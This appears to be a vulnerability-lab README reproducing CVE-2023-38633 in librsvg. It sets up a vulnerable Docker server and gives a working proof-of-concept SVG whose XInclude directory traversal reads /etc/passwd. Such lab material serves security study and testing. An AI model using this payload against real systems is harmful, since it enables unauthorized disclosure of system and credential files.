

# Librsvg XInclude Arbitrary file reading (CVE-2023-38633)

[中文版本(Chinese version)](README.zh-cn.md)

Librsvg is a free software SVG rendering library written as part of the GNOME project, intended to be lightweight and portable.

A directory traversal problem in the URL decoder of librsvg before 2.56.3 could be used by local or remote attackers to disclose files (on the local filesystem outside of the expected area), as demonstrated by `href=".?../../../../../../../../../../etc/passwd` in an xi:include element.

References:

- <https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/>
- <https://gitlab.gnome.org/GNOME/librsvg/-/issues/996>

## Vulnerable Environment

Executing following command to start a PHP server that uses librsvg 2.50.7 to handle SVG images:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8080` to see the upload page.

## Exploit

Use `<xi:include>` to read the local file by this POC:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

Upload this SVG image to server, you will see the `/etc/passwd` that is embedded in the output image:


